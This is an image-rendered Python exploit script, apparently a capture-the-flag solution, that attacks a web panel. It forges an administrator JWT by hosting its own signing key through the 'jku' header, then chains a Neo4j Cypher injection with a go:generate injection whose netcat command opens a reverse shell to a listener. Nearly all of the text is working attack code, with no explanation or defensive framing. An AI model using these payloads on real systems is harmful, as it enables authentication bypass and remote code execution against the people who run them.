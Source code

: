 ```python
public_numbers = private_key.public_key().public_numbers()
n_base64 = base64.urlsafe_b64encode(public_numbers.n.to_bytes((public_numbers.n.bit_length() + 7) // 8, "big")).rstrip(b"=").decode()
e_base64 = base64.urlsafe_b64encode(public_numbers.e.to_bytes((public_numbers.e.bit_length() + 7) // 8, "big")).rstrip(b"=").decode()

jwks = {
	"keys": [
		{
			"kty": "RSA",
			"alg": "RS256",
			"use": "sig",
			"kid": "1",
			"n": n_base64,
			"e": e_base64
		}
	]
}

with open('./pub.json', "w") as file:
    json.dump(jwks, file)

header = {
	"alg": "RS256",
	"jku": f"{HTTP_SERVER}/pub.json"
}

payload = {
	"username": 'hacked',
	"account_type": 'administrator'
}

token = jwt.encode(payload, pem_private_key, algorithm="RS256", headers=header)

sess.cookies.update({'jwt':token})

r = sess.get(f"http://{url}:{port}/panel/network")

# go:generate injection
go_gen_payload = urllib.parse.quote(f'"\n//go:generate nc {listener_ip} {listener_port} -e /bin/sh\n//', safe='')

# neo4j injection
cypher_payload = f"' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'http://127.0.0.1:1337/panel/server?server_url={go_gen_payload}&token={token}' as l RETURN 1 as identifier1,2 as identifier2/*"


print("catch that shell ;)")

r = sess.post(f"http://{url}:{port}/panel/network", data={'query':cypher_payload})

```